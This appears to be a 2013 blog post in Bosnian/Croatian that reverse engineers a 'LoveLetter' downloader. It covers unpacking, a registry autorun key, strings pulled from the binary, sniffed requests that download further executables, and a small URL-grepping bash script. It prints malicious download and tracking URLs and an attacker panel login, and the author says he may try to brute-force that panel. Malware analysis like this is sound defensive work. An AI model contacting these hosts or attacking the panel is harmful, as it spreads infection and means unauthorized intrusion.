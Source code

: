 ```yaml
---
title: Malware/  Loveletter - Reverse engineering
date: Dec 28 2013
tags: ["malware", "loveletter", "trojan", "dropper", "reverse", "analysis"]
---
```


## Intro 

Završen je moj crawler koji vrši monitor na malware sample stranicama i ufatio "bruku" malware-a. Neki dan sam reversao ovaj ali mi je bilo mrsko postaviti neki tekst o njemu. Sutra imam obaveza pa ću danas da postavim, a ako ne postavim danas neću nikad.. Pa da počnemo :)  

EDIT: Postavljena geturls skripta. Pozdrav tr3x. 

## Info

	MD5: 4a15a452bc958a92d25c3b4103041e65
	SHA: 27dfd06eb5d78ba1d52bef58336788d8ebaad0dfe75b468e91ab07277785ba8e

	Filename: 4a15a452bc958a92d25c3b4103041e65.exe
	Honeypot: Remote
	Detection ratio: 25 / 47

Datoteka je inače bila pakirana u setup arhivu, peID detektovao Inno Setup paker. Kažu ne može se unpakovati, a ja kao ono, ma daj ljudi jeste li normalni. Prvi link baca unpaker koji je pisao QuickeneR. Sljedeći korak - unpakirati fajl.

	> innounp.exe -x 4a15a452bc958a92d25c3b4103041e65.exe

	17.07.2011  15:18                 0 License.txt
	20.06.2012  13:20           208.896 LoveLetter.exe
	15.06.2012  23:42               233 Readme.txt
	31.07.2000  11:52            19.393 Why.mid

To su "ostaci" unpakinga. *LoveLetter.exe* izgleda najzanimljivije ovdje pa da vidimo šta se krije tu. Ispod je objašnjenje fajlova.

	License.txt 		// Ludi kinezi, prazan fajl
	LoveLetter.exe 		// Gore rečeno, malware sample
	Readme.txt 			// Nešta na kineskom
	Why.mid 			// Ne želite znati


## Run the Linux !!

	$ packer LoveLetter.exe
	Microsoft Visual Basic 5.0 / 6.0

	$ md5sum LoveLetter.exe
	2e62536f2b417c5f2cc88b321bee997c


Ok! :# Ajmo skenirati "LoveLetter" na VT. Čino mi se da je UD čim je na new-list malware pa da vidimo šta kaže VirusTotal. Završenim skeniranjem, detection rate je 10/46. Malware postavlja registry ključ za automatsko pokretanje poslije boot-a koristeći se WinAPIom RegCreateKey(Ex).

	HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\loveletter

![Registry Loveletter](http://i.imgur.com/JL18Exx.png)

## Sniff, sniff :)

Kad malo bolje pogledam, možda bi bilo interesantno vidjeti kakve requeste radi. Pokrenem malware, vidim da se veže na remote IP/hostname (process explorer huh).

![Inside of sniffing](http://i.imgur.com/twDcmA7.png)

Olly naravno otkriva više nego dovoljno detalja ali sam trenutno na Linux mašini. Ispisao sam bash skriptu koja koristi grep uz parametar za binary fajl i traži http:// i www stringove. Mislim da svaki korisnik Linuxa to može ispisati tako da vam ne treba skripta (recimo).  
  
	$ ./geturls LoveLetter.exe
	 Text string HUE= "http://hi.baidu.com/ietrtg"
	 Text string HUE= "http://url.gouwuke.cn/id/1" = DEAD
	 Text string HUE= "http://www.haoda123.com"
	 Text string HUE= "http://www.baidu.com/baidu?tn=flstudios_cb&word={searchTerms}&cl=3&ie=utf-8"
	 Text string HUE= "http://www.87265.com"
	 Text string HUE= "http://www.9365.info"
	 Text string HUE= "http://adsvc1.unadnet.com.cn/ad/softad/popup.htm"
	 Text string HUE= "http://adsvc1.unadnet.com.cn/count/softcount/?LoveLetter"
	 Text string HUE= "http://adsvc1.unadnet.com.cn/ad/softad/tuijian.htm"
	 Text string HUE= "http://%61%64%73%76%63%31%2E%39%33%36%35%2E%69%6E%66%6F/ad/softad/pwc.htm"


Pri samoj eksekuciji spaja se na remote (z11.cnzz.com), a cnzz.com je kineski provajder za cloud hosting i analizu korisnika uz posebne parametre. Ispod je slika i request za spajanje koji sam snifao.

	5	TCP	192.168.1.175	42.156.140.24	3065	80		z11.cnzz.com	http	7	655 Bytes	1,425 Bytes	1.1 KB/Sec	12/26/2013 4:35:58 AM:544	12/26/2013 4:35:59 AM:115	00:00:00.570		


# Request:

	GET /stat.htm?id=555586&r=&lg=en-us&ntime=1388027462&repeatip=1&rtime=0&cnzz_eid=1364475466-1388027462-&showp=1152x776&st=1495&sin=&t=&rnd=1229355078 HTTP/1.1
	Accept: */*
	Referer: http://adsvc1.unadnet.com.cn/count/softcount/?LoveLetter
	Accept-Language: 
	Accept-Encoding: gzip, deflate
	User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
	Host: hzs7.cnzz.com
	Connection: Keep-Alive
	Cookie: cna=YqdCC09ZcxcCAbx/bf7Y29oX

![Request Info](http://i.imgur.com/LAbGlqy.png)

 Malware šalje request i na još jednu subdomenu na istom websajtu te vršit UrlDownloadToFile sa pojedinih linkova. Ispod više detalja.

	6	TCP	192.168.1.175	42.156.140.11	3066	80		c.split.cnzz.com	http	7	1,419 Bytes	2,118 Bytes	0.1 KB/Sec	12/26/2013 4:35:59 AM:806	12/26/2013 4:36:18 AM:562	00:00:18.755	

	GET /core.php?web_id=555586&t=z HTTP/1.1
	Accept: */*
	Referer: http://adsvc1.unadnet.com.cn/count/softcount/?LoveLetter
	Accept-Language: bs-ba
	Accept-Encoding: gzip, deflate
	If-Modified-Since: Thu, 26 Dec 2013 03:11:16 GMT
	User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
	Host: c.cnzz.com
	Connection: Keep-Alive
	Cookie: cna=YqdCC09ZcxcCAbx/bf7Y29oX


Output:
![Output](http://i.imgur.com/lQdh7TB.png)

**UrlDownloadToFile** (više o API-u [ovdje](http://msdn.microsoft.com/en-us/library/ie/ms775123%28v=vs.85%29.aspx)):

	17	TCP	192.168.1.175	222.217.240.28	3100	80		xz.ieanquan.com	http	1,094	990,204 Bytes	1,034,214 Bytes	95.1 KB/Sec	12/26/2013 4:36:56 AM:962	12/26/2013 4:37:07 AM:072	00:00:10.109					
	-
	GET /download/dianxin_silent[57].exe HTTP/1.1

	20	TCP	192.168.1.175	220.181.61.212	3117	80		allot.hd.sohu.com	http	7	407 Bytes	918 Bytes	0.7 KB/Sec	12/26/2013 4:37:02 AM:301	12/26/2013 4:37:02 AM:835	00:00:00.534					
	-
	GET /foxd/gz?file=SohuNewPlayer.exe&new=/229/67/w8KSsVuAsvthyDIBzRQsP1.exe HTTP/1.1

	24	TCP	192.168.1.175	58.215.93.130	3137	80			http	432	388,200 Bytes	405,777 Bytes	72.4 KB/Sec	12/26/2013 4:37:16 AM:852	12/26/2013 4:37:22 AM:089	00:00:05.237					
	-
	GET /280cf9c20714744ccd17e57f66106dc70000000000370d38/9291/15474/setup_2949-14598.exe HTTP/1.1

## Statični analizeri

Malware isto pristupa sljedećim linkovima da obavi analizu korisnika koji ga je pokrenuo, samim tim i šalje request o detaljima koji su naznačeni u linkovima dole. Većina stvari nema nikakve specifične informacije. Inače radi se o jednostavnom downloaderu koji je više manje undetected.

	http://www.wk12345.com:8080/xiaocai/intf_queryAd?userName=%s|guid=%s|softVersion=%d
	http://www.wk12345.com:8080/xiaocai/intf_clientLoginOrout?param=%s|userName=%s|guid=%s|softVersion=%d
	http://tongji.toutiao001.com/toutiao_web_manage/getversion.php


Također sam našao i panel putujući kroz linkove a nalazi se na sljedećem linku. Možda pokušam uraditi bruteforce drugi dan. Link:

	http://www.wk12345.com:8080/xiaocai/jsp/login.jsp

## Zaključak

Ništa specijalno, radi se o običnom downloaderu mlweru koji vrši multi-threaded operacije. Upratio sam da ne "baca" request jedan po jedan već skida sve odjednom. Ostale datoteke mi nisu bile od interesa, većinom sponzor artikli i slično.

Pozdrav!
Evo neko me zamolio za skriptu pa da mu udovoljim :))  
  
	#!/bin/bash

	# geturls (./geturls)
	# skripta za malware reseaching / pretrazivanje url-ova unutar binary fajla
	# script for malware research / searching for url-s in binary file
	# dn5 / @dn5__ / http://dn5.ljuska.com
	# updatejted 29.Dec.2013. zbog public releasa

	if [ ! -n "$1" ]
	then
		echo "Enter a filename to scan"
		exit 0
	fi

	if [ -f $1 ]
	then
		echo "Searching for URI inside of" $1
		resultHTTP=$(grep -a "http://" $1)
		resutlHTTPS=$(grep -a "https://" $1)
		resultWWW=$(grep -a "www." $1)

		#HUE = Hueristic detection stringova
		echo "$resultHTTP"  > "url"
		echo "$resultHTTPS" >> "url"
		echo "$resultWWW" >> "url"

		# brisanje praznih linija
		awk 'NF > 0' url
		rm url #ne treba nam viÅ¡e <- moze del po potrebi
	else
		echo "File does not exsist"
	fi